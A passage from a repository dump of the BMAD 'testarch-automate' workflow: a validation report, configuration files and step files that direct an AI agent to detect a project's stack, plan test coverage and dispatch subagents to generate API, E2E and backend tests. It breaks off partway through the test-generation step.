- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 7

**Step File Sizes:**

- steps-c/step-01-preflight-and-context.md: 112 lines [GOOD]
- steps-c/step-02-identify-targets.md: 84 lines [GOOD]
- steps-c/step-03-generate-tests.md: 75 lines [GOOD]
- steps-c/step-04-validate-and-summarize.md: 61 lines [GOOD]
- steps-e/step-01-assess.md: 50 lines [GOOD]
- steps-e/step-02-apply-edit.md: 45 lines [GOOD]
- steps-v/step-01-validate.md: 52 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

### Config Variables (Exceptions)

Standard BMAD config variables treated as valid exceptions: bmb_creations_output_folder, communication_language, document_output_language, output_folder, planning_artifacts, project-root, project_name, test_artifacts, user_name

- No {project-root} hardcoded paths detected in body

- No dead relative links detected

- No module path assumptions detected

**Status:** ✅ PASS - No critical violations

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- steps-c/step-01-preflight-and-context.md: Init [PASS]
- steps-c/step-02-identify-targets.md: Middle [PASS]
- steps-c/step-03-generate-tests.md: Middle [PASS]
- steps-c/step-04-validate-and-summarize.md: Final [PASS]
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: NONE
- Steps with outputFile in frontmatter:
  - steps-c/step-04-validate-and-summarize.md
  - steps-v/step-01-validate.md
- checklist.md present: YES

## Validation Design Check

- Validation steps folder (steps-v) present: YES
- Validation step(s) present: step-01-validate.md
- Validation steps reference checklist data and auto-proceed

## Instruction Style Check

- Instruction style: Prescriptive (appropriate for TEA quality/compliance workflows)
- Steps emphasize mandatory sequence, explicit success/failure metrics, and risk-based guidance

## Collaborative Experience Check

- Overall facilitation quality: GOOD
- Steps use progressive prompts and clear role reinforcement; no laundry-list interrogation detected
- Flow progression is clear and aligned to workflow goals

## Subagent Optimization Opportunities

- No high-priority subagent optimizations identified; workflow already uses step-file architecture
- Pattern 1 (grep/regex): N/A for most steps
- Pattern 2 (per-file analysis): already aligned to validation structure
- Pattern 3 (data ops): minimal data file loads
- Pattern 4 (parallel): optional for validation only

## Cohesive Review

- Overall assessment: GOOD
- Flow is linear, goals are clear, and outputs map to TEA artifacts
- Voice and tone consistent with Test Architect persona
- Recommendation: READY (minor refinements optional)

## Plan Quality Validation

- Plan file present: workflow-plan.md
- Planned steps found: 7 (all implemented)
- Plan implementation status: Fully Implemented

## Summary

- Validation completed: 2026-01-27 10:24:01
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-automate/workflow-plan.md`
```markdown
    # Workflow Plan: testarch-automate

    ## Create Mode (steps-c)
    - step-01-preflight-and-context.md

- step-02-identify-targets.md
- step-03-generate-tests.md
- step-04-validate-and-summarize.md

  ## Validate Mode (steps-v)
  - step-01-validate.md

  ## Edit Mode (steps-e)
  - step-01-assess.md
  - step-02-apply-edit.md

  ## Outputs
  - {test_artifacts}/automation-summary.md

- Test files under {project-root}/tests
```

## File: `src/workflows/testarch/bmad-testarch-automate/workflow.md`
```markdown
---
name: bmad-testarch-automate
description: Expand test automation coverage for codebase. Use when user says 'lets expand test coverage' or 'I want to automate tests'
web_bundle: true
---

# Test Automation Expansion

**Goal:** Expand test automation coverage after implementation or analyze existing codebase to generate comprehensive test suite

**Role:** You are the Master Test Architect.

---

## WORKFLOW ARCHITECTURE

This workflow uses **tri-modal step-file architecture**:

- **Create mode (steps-c/)**: primary execution flow
- **Validate mode (steps-v/)**: validation against checklist
- **Edit mode (steps-e/)**: revise existing outputs

---

## INITIALIZATION SEQUENCE

### 1. Mode Determination

"Welcome to the workflow. What would you like to do?"

- **[C] Create** — Run the workflow
- **[R] Resume** — Resume an interrupted workflow
- **[V] Validate** — Validate existing outputs
- **[E] Edit** — Edit existing outputs

### 2. Route to First Step

- **If C:** Load `steps-c/step-01-preflight-and-context.md`
- **If R:** Load `steps-c/step-01b-resume.md`
- **If V:** Load `steps-v/step-01-validate.md`
- **If E:** Load `steps-e/step-01-assess.md`
```

## File: `src/workflows/testarch/bmad-testarch-automate/workflow.yaml`
```yaml
# Test Architect workflow: bmad-testarch-automate
name: bmad-testarch-automate
# prettier-ignore
description: 'Expand test automation coverage for codebase. Use when the user says "lets expand test coverage" or "I want to automate tests"'

# Critical variables from config
config_source: "{project-root}/_bmad/tea/config.yaml"
output_folder: "{config_source}:output_folder"
test_artifacts: "{config_source}:test_artifacts"
user_name: "{config_source}:user_name"
communication_language: "{config_source}:communication_language"
document_output_language: "{config_source}:document_output_language"
date: system-generated

# Workflow components
installed_path: "."
instructions: "./instructions.md"
validation: "./checklist.md"
template: false

# Variables and inputs
variables:
  # Execution mode and targeting
  standalone_mode: true # Can work without BMad artifacts (true) or integrate with BMad (false)
  coverage_target: "critical-paths" # critical-paths, comprehensive, selective

  # Directory paths
  test_dir: "{project-root}/tests" # Root test directory
  source_dir: "{project-root}" # Source code directory (customize if needed, e.g., {project-root}/src or {project-root}/lib)

# Output configuration
default_output_file: "{test_artifacts}/automation-summary.md"

# Required tools
required_tools:
  - read_file # Read source code, existing tests, BMad artifacts
  - write_file # Create test files, fixtures, factories, summaries
  - create_directory # Create test directories
  - list_files # Discover features and existing tests
  - search_repo # Find coverage gaps and patterns
  - glob # Find test files and source files

tags:
  - qa
  - automation
  - test-architect
  - regression
  - coverage

execution_hints:
  interactive: false # Minimize prompts
  autonomous: true # Proceed without user input unless blocked
  iterative: true
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-c/step-01-preflight-and-context.md`
```markdown
---
name: 'step-01-preflight-and-context'
description: 'Determine mode, verify framework, and load context and knowledge'
outputFile: '{test_artifacts}/automation-summary.md'
nextStepFile: './step-02-identify-targets.md'
knowledgeIndex: '{project-root}/_bmad/tea/agents/bmad-tea/resources/tea-index.csv'
---

# Step 1: Preflight & Context Loading

## STEP GOAL

Determine execution mode, verify framework readiness, and load the necessary artifacts and knowledge fragments.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- 🚫 Halt if framework scaffolding is missing

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Stack Detection & Verify Framework

**Read `config.test_stack_type`** from `{config_source}`.

**Auto-Detection Algorithm** (when `test_stack_type` is `"auto"` or not configured):

- Scan `{project-root}` for project manifests:
  - **Frontend indicators**: `package.json` with react/vue/angular/next dependencies, `playwright.config.*`, `vite.config.*`, `webpack.config.*`
  - **Backend indicators**: `pyproject.toml`, `pom.xml`/`build.gradle`, `go.mod`, `*.csproj`/`*.sln`, `Gemfile`, `Cargo.toml`
  - **Both present** = `fullstack`; only frontend = `frontend`; only backend = `backend`
- Explicit `test_stack_type` config value overrides auto-detection
- **Backward compatibility**: if `test_stack_type` is not in config, treat as `"auto"` (preserves current frontend behavior for existing installs)

Store result as `{detected_stack}` = `frontend` | `backend` | `fullstack`

**Verify framework exists:**

**If {detected_stack} is `frontend` or `fullstack`:**

- `playwright.config.ts` or `cypress.config.ts`
- `package.json` includes test dependencies

**If {detected_stack} is `backend` or `fullstack`:**

- Relevant test config exists (e.g., `conftest.py`, `src/test/`, `*_test.go`, `.rspec`, test project `*.csproj`)

If missing: **HALT** with message "Run `framework` workflow first."

---

## 2. Determine Execution Mode

- **BMad-Integrated** if story/tech-spec/test-design artifacts are provided or found
- **Standalone** if only source code is available
- If unclear, ask the user which mode to use

---

## 3. Load Context

### BMad-Integrated (if available)

- Story with acceptance criteria
- PRD and/or tech spec
- Test-design document (if exists)

### Standalone

- Skip artifacts; proceed to codebase analysis

### Always Load

- Test framework config
- Existing test structure in `{test_dir}`
- Existing tests (for coverage gaps)

### Read TEA Config Flags

- From `{config_source}` read `tea_use_playwright_utils`
- From `{config_source}` read `tea_use_pactjs_utils`
- From `{config_source}` read `tea_pact_mcp`
- From `{config_source}` read `tea_browser_automation`
- From `{config_source}` read `test_stack_type`

---

### Tiered Knowledge Loading

Load fragments based on their `tier` classification in `tea-index.csv`:

1. **Core tier** (always load): Foundational fragments required for this workflow
2. **Extended tier** (load on-demand): Load when deeper analysis is needed or when the user's context requires it
3. **Specialized tier** (load only when relevant): Load only when the specific use case matches (e.g., contract-testing only for microservices, email-auth only for email flows)

> **Context Efficiency**: Loading only core fragments reduces context usage by 40-50% compared to loading all fragments.

### Playwright Utils Loading Profiles

**If `tea_use_playwright_utils` is enabled**, select the appropriate loading profile:

- **API-only profile** (when `{detected_stack}` is `backend` or no `page.goto`/`page.locator` found in test files):
  Load: `overview`, `api-request`, `auth-session`, `recurse` (~1,800 lines)

- **Full UI+API profile** (when `{detected_stack}` is `frontend`/`fullstack` or browser tests detected):
  Load: all Playwright Utils core fragments (~4,500 lines)

**Detection**: Scan `{test_dir}` for files containing `page.goto` or `page.locator`. If none found, use API-only profile.

### Pact.js Utils Loading

**If `tea_use_pactjs_utils` is enabled** (and `{detected_stack}` is `backend` or `fullstack`, or microservices indicators detected):

Load: `pactjs-utils-overview.md`, `pactjs-utils-consumer-helpers.md`, `pactjs-utils-provider-verifier.md`, `pactjs-utils-request-filter.md` (~800 lines)

**If `tea_use_pactjs_utils` is disabled** but contract testing is relevant (microservices architecture detected, existing Pact config found):

Load: `contract-testing.md` (~960 lines)

**Detection**: Scan `{project-root}` for Pact indicators: `pact/` directory, `@pact-foundation/pact` in `package.json`, `pactUrls` in test files, `PACT_BROKER` in env files.

### Pact MCP Loading

**If `tea_pact_mcp` is `"mcp"`:**

Load: `pact-mcp.md` (~150 lines) — enables agent to use SmartBear MCP tools for fetching provider states and generating pact tests during automation.

## 4. Load Knowledge Base Fragments

Use `{knowledgeIndex}` and load only what is required.

**Core (always load):**

- `test-levels-framework.md`
- `test-priorities-matrix.md`
- `data-factories.md`
- `selective-testing.md`
- `ci-burn-in.md`
- `test-quality.md`

**Playwright Utils (if enabled):**

- `overview.md`, `api-request.md`, `network-recorder.md`, `auth-session.md`, `intercept-network-call.md`, `recurse.md`, `log.md`, `file-utils.md`, `burn-in.md`, `network-error-monitor.md`, `fixtures-composition.md`

**Traditional Patterns (if Playwright Utils disabled):**

- `fixture-architecture.md`
- `network-first.md`

**Pact.js Utils (if enabled):**

- `pactjs-utils-overview.md`, `pactjs-utils-consumer-helpers.md`, `pactjs-utils-provider-verifier.md`, `pactjs-utils-request-filter.md`

**Contract Testing (if pactjs-utils disabled but relevant):**

- `contract-testing.md`

**Pact MCP (if tea_pact_mcp is "mcp"):**

- `pact-mcp.md`

**Healing (if auto-heal enabled):**

- `test-healing-patterns.md`
- `selector-resilience.md`
- `timing-debugging.md`

**Playwright CLI (if tea_browser_automation is "cli" or "auto"):**

- `playwright-cli.md`

**MCP Patterns (if tea_browser_automation is "mcp" or "auto"):**

- (existing MCP-related fragments, if any are added in future)

---

## 5. Confirm Inputs

Summarize loaded artifacts, framework, and knowledge fragments, then proceed.

---

## 6. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-01-preflight-and-context']
  lastStep: 'step-01-preflight-and-context'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-01-preflight-and-context'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-01-preflight-and-context'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section.

**Update `inputDocuments`**: Set `inputDocuments` in the output template frontmatter to the list of artifact paths loaded in this step (e.g., knowledge fragments, test design documents, configuration files).

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-c/step-01b-resume.md`
```markdown
---
name: 'step-01b-resume'
description: 'Resume interrupted workflow from last completed step'
outputFile: '{test_artifacts}/automation-summary.md'
---

# Step 1b: Resume Workflow

## STEP GOAL

Resume an interrupted workflow by loading the existing output document, displaying progress, and routing to the next incomplete step.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: Output document with progress frontmatter
- Focus: Load progress and route to next step
- Limits: Do not re-execute completed steps
- Dependencies: Output document must exist from a previous run

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Output Document

Read `{outputFile}` and parse YAML frontmatter for:

- `stepsCompleted` — array of completed step names
- `lastStep` — last completed step name
- `lastSaved` — timestamp of last save

**If `{outputFile}` does not exist**, display:

"⚠️ **No previous progress found.** There is no output document to resume from. Please use **[C] Create** to start a fresh workflow run."

**THEN:** Halt. Do not proceed.

---

### 2. Display Progress Dashboard

Display progress with ✅/⬜ indicators:

1. ✅/⬜ Preflight & Context (step-01-preflight-and-context)
2. ✅/⬜ Identify Targets (step-02-identify-targets)
3. ✅/⬜ Generate Tests + Aggregate (step-03c-aggregate)
4. ✅/⬜ Validate & Summarize (step-04-validate-and-summarize)

---

### 3. Route to Next Step

Based on `lastStep`, load the next incomplete step:

- `'step-01-preflight-and-context'` → load `./step-02-identify-targets.md`
- `'step-02-identify-targets'` → load `./step-03-generate-tests.md`
- `'step-03c-aggregate'` → load `./step-04-validate-and-summarize.md`
- `'step-04-validate-and-summarize'` → **Workflow already complete.** Display: "✅ **All steps completed.** Use **[V] Validate** to review outputs or **[E] Edit** to make revisions." Then halt.

**If `lastStep` does not match any value above**, display: "⚠️ **Unknown progress state** (`lastStep`: {lastStep}). Please use **[C] Create** to start fresh." Then halt.

**Otherwise**, load the identified step file, read completely, and execute.

The existing content in `{outputFile}` provides context from previously completed steps.

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Output document loaded and parsed correctly
- Progress dashboard displayed accurately
- Routed to correct next step

### ❌ SYSTEM FAILURE:

- Not loading output document
- Incorrect progress display
- Routing to wrong step

**Master Rule:** Resume MUST route to the exact next incomplete step. Never re-execute completed steps.
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-c/step-02-identify-targets.md`
```markdown
---
name: 'step-02-identify-targets'
description: 'Identify automation targets and create coverage plan'
outputFile: '{test_artifacts}/automation-summary.md'
nextStepFile: './step-03-generate-tests.md'
---

# Step 2: Identify Automation Targets

## STEP GOAL

Determine what needs to be tested and select appropriate test levels and priorities.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- 🚫 Avoid duplicate coverage across test levels

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Determine Targets

**BMad-Integrated:**

- Map acceptance criteria to test scenarios
- Check for existing ATDD outputs to avoid duplication
- Expand coverage with edge cases and negative paths

**Standalone:**

- If specific target feature/files are provided, focus there
- Otherwise auto-discover features in `{source_dir}`
- Prioritize critical paths, integrations, and untested logic

**If {detected_stack} is `frontend` or `fullstack`:**

**Browser Exploration (if `tea_browser_automation` is `cli` or `auto`):**

> **Fallback:** If CLI is not installed, fall back to MCP (if available) or skip browser exploration and rely on code/doc analysis.

Use CLI to explore the application and identify testable pages/flows:

1. `playwright-cli -s=tea-automate open <target_url>`
2. `playwright-cli -s=tea-automate snapshot` → capture page structure and element refs
3. Analyze snapshot output to identify testable elements and flows
4. `playwright-cli -s=tea-automate close`

> **Session Hygiene:** Always close sessions using `playwright-cli -s=tea-automate close`. Do NOT use `close-all` — it kills every session on the machine and breaks parallel execution.

**If {detected_stack} is `backend` or `fullstack`:**

**Source & API Analysis (no browser exploration):**

- Scan source code for route handlers, controllers, service classes, and public APIs
- Read OpenAPI/Swagger specs (`openapi.yaml`, `swagger.json`) if available
- Identify database models, migrations, and data access patterns
- Map service-to-service integrations and message queue consumers/producers
- Check for existing contract tests (Pact, etc.)

---

**If `use_pactjs_utils` is enabled — Provider Endpoint Mapping (all stacks):**

When consumer-driven contract tests will be generated, build a Provider Endpoint Map during target identification. This applies to all `{detected_stack}` values — frontend, backend, and fullstack consumers all need provider scrutiny.

1. **Locate provider source and/or OpenAPI spec**: Scan workspace for provider project (from config, monorepo structure, or adjacent repositories). Also check for OpenAPI/Swagger spec files (`openapi.yaml`, `openapi.json`, `swagger.json`) — these document the provider's contract explicitly and can supplement or replace handler code analysis.
2. **Map each consumer endpoint** to its provider counterpart:
   - Provider file path (route handler)
   - Route pattern (METHOD + path)
   - Validation schema location (Joi, Zod, class-validator) or OpenAPI request schema
   - Response type/DTO definition location or OpenAPI response schema
   - OpenAPI spec path (if available, e.g., `server/openapi.yaml`)
3. **Output as "Provider Endpoint Map" table** in the coverage plan:

```markdown
| Consumer Endpoint     | Provider File                     | Route                     | Validation Schema                   | Response Type   | OpenAPI Spec                                      |
| --------------------- | --------------------------------- | ------------------------- | ----------------------------------- | --------------- | ------------------------------------------------- |
| GET /api/v2/users/:id | server/src/routes/userHandlers.ts | GET /api/v2/users/:userId | server/src/validation/user.ts       | UserResponseDto | server/openapi.yaml#/paths/~1api~1v2~1users~1{id} |
| POST /api/v2/users    | server/src/routes/userHandlers.ts | POST /api/v2/users        | server/src/validation/createUser.ts | UserResponseDto | server/openapi.yaml#/paths/~1api~1v2~1users       |
```

4. **If provider source not accessible**: Mark entries with `TODO — provider source not accessible` and note in coverage plan that provider scrutiny will use graceful degradation (see `contract-testing.md` Provider Scrutiny Protocol)

---

## 2. Choose Test Levels

Use `test-levels-framework.md` to select:

- **E2E** for critical user journeys
- **API** for business logic and service contracts
- **Component** for UI behavior
- **Unit** for pure logic and edge cases

---

## 3. Assign Priorities

Use `test-priorities-matrix.md`:

- P0: Critical path + high risk
- P1: Important flows + medium/high risk
- P2: Secondary + edge cases
- P3: Optional/rare scenarios

---

## 4. Coverage Plan

Produce a concise coverage plan:

- Targets by test level
- Priority assignments
- Justification for coverage scope (critical-paths/comprehensive/selective)

---

## 5. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-02-identify-targets']
  lastStep: 'step-02-identify-targets'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-02-identify-targets'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-02-identify-targets'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-c/step-03-generate-tests.md`
```markdown
---
name: 'step-03-generate-tests'
description: 'Orchestrate adaptive test generation (agent-team, subagent, or sequential)'
nextStepFile: './step-03c-aggregate.md'
---

# Step 3: Orchestrate Adaptive Test Generation

## STEP GOAL

Select execution mode deterministically, then generate tests using agent-team, subagent, or sequential execution while preserving the same output contract. Worker selection depends on `{detected_stack}`.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Resolve execution mode from config (`tea_execution_mode`, `tea_capability_probe`)
- ✅ Apply fallback rules deterministically when requested mode is unsupported
- ✅ Preserve output schema and temp file naming across all modes
- ❌ Do NOT skip capability checks when probing is enabled
- ❌ Do NOT change output paths or JSON schema by mode

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Wait for subagent outputs
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, coverage plan from Step 2, knowledge fragments
- Focus: orchestration only (mode selection + worker dispatch)
- Limits: do not generate tests directly (delegate to worker steps)
- Dependencies: Step 2 outputs (coverage plan, target features)

---

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

### 1. Prepare Execution Context

**Generate unique timestamp** for temp file naming:

```javascript
const timestamp = new Date().toISOString().replace(/[:.]/g, '-');
```

**Prepare input context for subagents:**

```javascript
const parseBooleanFlag = (value, defaultValue = true) => {
  if (typeof value === 'string') {
    const normalized = value.trim().toLowerCase();
    if (['false', '0', 'off', 'no'].includes(normalized)) return false;
    if (['true', '1', 'on', 'yes'].includes(normalized)) return true;
  }
  if (value === undefined || value === null) return defaultValue;
  return Boolean(value);
};

const subagentContext = {
  features: /* from Step 2 coverage plan */,
  knowledge_fragments_loaded: /* list of fragments */,
  config: {
    test_framework: config.test_framework,
    use_playwright_utils: config.tea_use_playwright_utils,
    use_pactjs_utils: config.tea_use_pactjs_utils,
    pact_mcp: config.tea_pact_mcp,  // "mcp" | "none"
    browser_automation: config.tea_browser_automation,  // "auto" | "cli" | "mcp" | "none"
    detected_stack: '{detected_stack}',  // "frontend" | "backend" | "fullstack"
    execution_mode: config.tea_execution_mode || 'auto',  // "auto" | "subagent" | "agent-team" | "sequential"
    capability_probe: parseBooleanFlag(config.tea_capability_probe, true),  // supports booleans and "false"/"true" strings
    provider_endpoint_map: /* from Step 2 coverage plan, if use_pactjs_utils enabled */,
  },
  timestamp: timestamp
};
```

---

### 2. Resolve Execution Mode with Capability Probe

```javascript
const normalizeUserExecutionMode = (mode) => {
  if (typeof mode !== 'string') return null;
  const normalized = mode.trim().toLowerCase().replace(/[-_]/g, ' ').replace(/\s+/g, ' ');

  if (normalized === 'auto') return 'auto';
  if (normalized === 'sequential') return 'sequential';
  if (normalized === 'subagent' || normalized === 'sub agent' || normalized === 'subagents' || normalized === 'sub agents') {
    return 'subagent';
  }
  if (normalized === 'agent team' || normalized === 'agent teams' || normalized === 'agentteam') {
    return 'agent-team';
  }

  return null;
};

const normalizeConfigExecutionMode = (mode) => {
  if (mode === 'subagent') return 'subagent';
  if (mode === 'auto' || mode === 'sequential' || mode === 'subagent' || mode === 'agent-team') {
    return mode;
  }
  return null;
};

// Explicit user instruction in the active run takes priority over config.
const explicitModeFromUser = normalizeUserExecutionMode(runtime.getExplicitExecutionModeHint?.() || null);

const requestedMode = explicitModeFromUser || normalizeConfigExecutionMode(subagentContext.config.execution_mode) || 'auto';
const probeEnabled = subagentContext.config.capability_probe;

const supports = {
  subagent: false,
  agentTeam: false,
};

if (probeEnabled) {
  // Probe using runtime-native capability checks or a no-op launch test.
  supports.subagent = runtime.canLaunchSubagents?.() === true;
  supports.agentTeam = runtime.canLaunchAgentTeams?.() === true;
}

let resolvedMode = requestedMode;

if (requestedMode === 'auto') {
  if (supports.agentTeam) resolvedMode = 'agent-team';
  else if (supports.subagent) resolvedMode = 'subagent';
  else resolvedMode = 'sequential';
} else if (probeEnabled && requestedMode === 'agent-team' && !supports.agentTeam) {
  resolvedMode = supports.subagent ? 'subagent' : 'sequential';
} else if (probeEnabled && requestedMode === 'subagent' && !supports.subagent) {
  resolvedMode = 'sequential';
}

subagentContext.execution = {
  requestedMode,
  resolvedMode,
  probeEnabled,
  supports,
};
```

Resolution precedence:

1. Explicit user request in this run (`agent team` => `agent-team`; `subagent` => `subagent`; `sequential`; `auto`)
2. `tea_execution_mode` from config
3. Runtime capability fallback (when probing enabled)

If probing is disabled, honor the requested mode strictly. If that mode cannot be executed at runtime, fail with explicit error instead of silent fallback.

Report selected mode before dispatch:

```
⚙️ Execution Mode Resolution:
- Requested: {requestedMode}
- Probe Enabled: {probeEnabled}
- Supports agent-team: {supports.agentTeam}
- Supports subagent: {supports.subagent}
- Resolved: {resolvedMode}
```

---

### 3. Subagent Dispatch Matrix

**Select subagents based on `{detected_stack}`:**

| `{detected_stack}` | Subagent A (API) | Subagent B (E2E) | Subagent B-backend |
| ------------------ | ---------------- | ---------------- | ------------------ |
| `frontend`         | Launch           | Launch           | Skip               |
| `backend`          | Launch           | Skip             | Launch             |
| `fullstack`        | Launch           | Launch           | Launch             |

### 3A. Runtime-Managed Parallelism

When `resolvedMode` is `agent-team` or `subagent`, let the runtime decide concurrency and scheduling. TEA does not impose an additional worker ceiling.

---

### Contract Test Generation Note

When `use_pactjs_utils` is enabled, the API test generation subagent (step-03a) also generates:

- **Consumer contract tests**: Using `createProviderState` for type-safe provider states
- **Provider verification tests**: Using `buildVerifierOptions` for one-call verifier setup
- **Message contract tests**: Using `buildMessageVerifierOptions` if async/Kafka patterns detected
- **Helper files**: Request filter setup with `createRequestFilter`, shared state constants
- **Provider scrutiny**: Subagent reads provider route handlers, types, and validation schemas before generating each interaction (see `contract-testing.md` Provider Scrutiny Protocol)

When `pact_mcp` is `"mcp"`, the subagent can use SmartBear MCP tools to fetch existing provider states and generate tests informed by broker data.

---

### 4. Dispatch Worker A: API Test Generation (always)

**Dispatch worker:**

- **Subagent File:** `./step-03a-subagent-api.md`
- **Output File:** `/tmp/tea-automate-api-tests-${timestamp}.json`
- **Context:** Pass `subagentContext`
- **Execution:**
  - `agent-team` or `subagent`: launch non-blocking
  - `sequential`: run blocking and wait before next dispatch

**System Action:**

```
🚀 Launching Subagent A: API Test Generation
📝 Output: /tmp/tea-automate-api-tests-${timestamp}.json
⚙️ Mode: ${resolvedMode}
⏳ Status: Running...
```

---

### 5. Dispatch Worker B: E2E Test Generation (frontend/fullstack only)

**If {detected_stack} is `frontend` or `fullstack`:**

**Dispatch worker:**

- **Subagent File:** `./step-03b-subagent-e2e.md`
- **Output File:** `/tmp/tea-automate-e2e-tests-${timestamp}.json`
- **Context:** Pass `subagentContext`
- **Execution:**
  - `agent-team` or `subagent`: launch non-blocking
  - `sequential`: run blocking and wait before next dispatch

**System Action:**

```
🚀 Launching Subagent B: E2E Test Generation
📝 Output: /tmp/tea-automate-e2e-tests-${timestamp}.json
⚙️ Mode: ${resolvedMode}
⏳ Status: Running...
```

**If {detected_stack} is `backend`:** Skip this subagent.

---

### 6. Dispatch Worker B-backend: Backend Test Generation (backend/fullstack only)

**If {detected_stack} is `backend` or `fullstack`:**

**Dispatch worker:**

- **Subagent File:** `./step-03b-subagent-backend.md`
- **Output File:** `/tmp/tea-automate-backend-tests-${timestamp}.json`
- **Context:** Pass `subagentContext`
- **Execution:**
  - `agent-team` or `subagent`: launch non-blocking
  - `sequential`: run blocking and wait before next dispatch

**System Action:**

```
🚀 Launching Subagent B-backend: Backend Test Generation
📝 Output: /tmp/tea-automate-backend-tests-${timestamp}.json
⚙️ Mode: ${resolvedMode}
⏳ Status: Running...
```

**If {detected_stack} is `frontend`:** Skip this subagent.

---

### 7. Wait for Expected Worker Completion

**If `resolvedMode` is `agent-team` or `subagent`:**

```
⏳ Waiting for subagents to complete...
  ├── Subagent A (API): Running... ⟳
  ├── Subagent B (E2E): Running... ⟳       [if frontend/fullstack]
  └── Subagent B-backend: Running... ⟳     [if backend/fullstack]

[... time passes ...]

  ├── Subagent A (API): Complete ✅
  ├── Subagent B (E2E): Complete ✅         [if frontend/fullstack]
  └── Subagent B-backend: Complete ✅       [if backend/fullstack]

✅ All subagents completed successfully!
```

**If `resolvedMode` is `sequential`:**

```
✅ Sequential mode: each worker already completed during dispatch.
```

**Verify outputs exist (based on `{detected_stack}`):**

```javascript
const apiOutputExists = fs.existsSync(`/tmp/tea-automate-api-tests-${timestamp}.json`);

// Check based on detected_stack
if (detected_stack === 'frontend' || detected_stack === 'fullstack') {
  const e2eOutputExists = fs.existsSync(`/tmp/tea-automate-e2e-tests-${timestamp}.json`);
  if (!e2eOutputExists) throw new Error('E2E subagent output missing!');
}
if (detected_stack === 'backend' || detected_stack === 'fullstack') {
  const backendOutputExists = fs.existsSync(`/tmp/tea-automate-backend-tests-${timestamp}.json`);
  if (!backendOutputExists) throw new Error('Backend subagent output missing!');
}
if (!apiOutputExists) throw new Error('API subagent output missing!');
```

---

### Subagent Output Schema Contract

The aggregate step expects both outputs to include `success`, but the payload shapes are intentionally different:

- `step-03b-subagent-e2e.md` output includes `success`, `subagent`, `tests`, `fixture_needs`, `knowledge_fragments_used`, `test_count`, and `summary`.
- `step-03b-subagent-backend.md` output includes `success`, `subagent`, `subagentType`, `testsGenerated`, `coverageSummary` (with `fixtureNeeds`), `status`, `knowledge_fragments_used`, and `summary`.

The aggregate step reads whichever output file(s) exist based on `{detected_stack}` and must use the matching schema per subagent type.

---

### 8. Execution Report

**Display performance metrics:**

```
🚀 Performance Report:
- Execution Mode: {resolvedMode}
- Stack Type: {detected_stack}
- API Test Generation: ~X minutes
- E2E Test Generation: ~Y minutes       [if frontend/fullstack]
- Backend Test Generation: ~Z minutes    [if backend/fullstack]
- Total Elapsed: ~mode-dependent
- Parallel Gain: ~40-70% faster when mode is subagent/agent-team
```

---

### 9. Proceed to Aggregation

**Load aggregation step:**
